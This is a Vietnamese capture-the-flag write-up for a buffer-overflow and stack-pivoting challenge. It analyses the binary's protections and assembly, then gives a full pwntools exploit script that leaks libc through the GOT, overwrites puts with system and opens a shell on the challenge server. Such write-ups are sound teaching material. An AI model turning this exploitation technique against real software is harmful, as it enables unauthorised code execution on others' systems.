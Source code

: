 # BOF + stack pivoting

Kiểm tra các chế độ bảo vệ của chương trình ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/236665571-90cbf9a4-7b0c-493a-8db5-3ccf9a857d21.png)

PIE và RELRO tắt thì nghĩ ngay là tấn công GOT thôi, CANARY cũng tắt sẽ dễ dàng hơn cho việc khai thác.

Kiểm tra luồng thực thi của chương trình qua IDA ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236665635-a51f60ea-a6d4-4926-95eb-7b6a182f7203.png)

Hàm vuln được thực hiện lại liên tục khi nó đặt trong vòng while_loop.
kiểm tra hàm vuln() ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236665716-f0bd6942-82f2-451f-852a-3e359c5494a1.png)

Ở đây ta thấy nó cho ta ghi tận 72 bytes vô buf[64] vậy là dư 8 byte ==> chỉ đủ để overwrite saved rbp của vuln, và sau khi hàm vuln trả về hàm main và tiếp tục thực thi câu lệnh kế ==> ta có thể thay đổi được rbp của main.
Nhưng thay đổi được rồi thì làm gì tiếp. đoạn này nếu xem pseuđôce thôi sẽ không thấy ta hãy sang phân tích mã assembly:

![image](https://user-images.githubusercontent.com/93699926/236665846-9496fbd8-205b-4788-9434-2837ec34f47e.png)

Ta thấy sau khi gọi hàm vuln nó sẽ thực hiện đoạn code sau :

```assembly
; lúc này sau khi vừa thực thi hàm vuln thì rax sẽ chứa địa chỉ của chuỗi ta vừa nhập ở hàm vuln
; RAX: 0x12345678 -> "AAAAAA..."
mov     rcx, [rax]        ;  nó sẽ lưu 8byte đầu vô rcx=> rcx="AAAAAAAA"
mov     rbx, [rax+8]      ; rbx="AAAAAAAA" 8 byte tiếp theo
mov     [rbp+var_50], rcx ; nó sẽ lưu RBP +offset var_50
mov     [rbp+var_48], rbx; nó sẽ lưu RBP +offset var_48
mov     rcx, [rax+10h] 
mov     rbx, [rax+18h]
mov     [rbp+var_40], rcx
mov     [rbp+var_38], rbx
mov     rcx, [rax+20h]
mov     rbx, [rax+28h]
mov     [rbp+var_30], rcx
mov     [rbp+var_28], rbx
mov     rdx, [rax+38h]     ; đến đây giống như ở trên thì ta có thể hiểu là nó sẽ coppy 0x40 bytes input của ta vô RBP+var_50
mov     rax, [rax+30h]
mov     [rbp+var_20], rax
mov     [rbp+var_18], rdx
```

kiểm tra stack của main ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236666165-4de06a6a-c3af-47ae-9693-8dbe21c53cb9.png)

cái giá biến var_50 sẽ mang giá trị là -0x50

Hiểu được luồng thực thi của chương trình thì ta sẽ có hướng khai thác như sau :
# PLAN
Step1: ta sẽ ghi đè biến global message với địa chỉ GOT của hàm nào đó để khi chương trình puts message ta sẽ leak được địa chỉ libc

Step2: ghi đè message với địa chỉ của chuỗi /bin/sh đã khi đã leak được libc

Step3: over write GOT của PUTS thành System

full script in p.py
```python
from pwn import *
context.binary=exe=ELF("./chall_patched",checksec=False)
libc=ELF("./libc.so.6",checksec=False)

#p=process(exe.path)
p=remote("junior-pwner.bsides.shellmates.club",443,ssl=True)
def GDB():
        gdb.attach(p,gdbscript=
                '''
                b*0x0000000000401311
                b*0x0000000000401327
                c
                '''
                )
        input()



#GDB()
rw_section=0x404a00
payload=b"A"*0x10
payload=flat(
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        )
payload+=p64(exe.sym['messages']+0x30)
p.sendafter(b"Your Name:",payload)



leak=int.from_bytes(p.recvuntil(b"Your Name:",drop=True).split(b"\n")[1],"little")
log.info('[+]leak:'+hex(leak))
libc.address=leak-0x80ed0
log.info('[+]libc base:'+hex(libc.address))
log.info('[+]system:'+hex(libc.sym['system']))
payload=flat(
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        )
payload+=p64(exe.sym['messages']+0x30)
p.send(payload)

print('[+]over writing puts got')
payload=flat(
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        )
payload+=p64(exe.got['rand'])
p.sendafter(b"Your Name:",payload)

p.interactive()
```
 
Chạy chương trình trên sever ta có flag :

![image](https://user-images.githubusercontent.com/93699926/236666441-66557853-3ebe-41a0-9cf0-e3d4520597c9.png)


